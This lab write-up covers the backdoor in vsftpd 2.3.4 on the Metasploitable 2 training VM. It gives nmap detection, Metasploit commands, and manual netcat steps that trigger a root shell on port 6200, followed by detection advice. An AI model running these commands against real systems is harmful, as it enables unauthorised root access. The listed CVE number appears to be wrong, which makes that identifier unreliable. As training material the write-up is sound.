

# FTP (vsftpd 2.3.4) - Backdoor Exploit

### Service Summary

FTP (File Transfer Protocol) is a standard network protocol used to transfer files between a client and a server. On Metasploitable 2, FTP is running on port 21, powered by a vulnerable version of vsftpd (Very Secure FTP Daemon) 2.3.4.

### Vulnerability Overview

- **Name**: vsftpd 2.3.4
- **CVE**: CVE-2011-2532
- **Impact**: Unauthenticated Remote Code Execution (RCE) as root
- **Access Required**: None
- **Trigger**: FTP login with username ending in `:)`
- **Behavior**: Opens a shell on port 6200

```
This was not a logic flaw, but a malicious backdoor injected into the source code — it was planted to open a shell when a smiley face :) is passed as a username.
```

### Service Detection and Enumeration

Use `nmap` to identify the FTP service and version:

```bash
nmap -sV -v -p 21 <target-ip>
```



---

## Exploitation Steps (Metasploit)

Launch Metasploit

```
msfconsole
```

Search for the module for the corresponding vsftpd version

```
search vsftpd
```

Load the exploit module

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

Set options

```b
set RHOSTS <target_ip>
set RPORT 21
run
```


The shell spawned is a root-level shell with full access to the underlying system.


---

## Manual Testing

We can also take manual steps to exploit the vulnerability. Connect to the target machine using Netcat.

```bash
nc <target_ip> 21
```

Send:

```bash
USER test:)
PASS whatever
```

Then check if a shell has opened up on the target machine on port 6200

```bash
nc <target_ip> 6200
```


---

## Results

- Successfully got a root shell on the system.
- No credential or post-exploitation privilge escalation required.
- Showcases how dangerous supply chain attacks can be (malicious source).

## Detection (Blue Team Perspective)

- Do not use vsftpd 2.3.4 — update to 2.3.5 or later.
- Alert on vsftpd 2.3.4 running in production environments.
- Restrict FTP access using firewalls or move to more secure alternatives (SFTP).
- Watch FTP logs for usernames containing `:)`.
- Monitor for abnormal port activity (e.g., 6200).
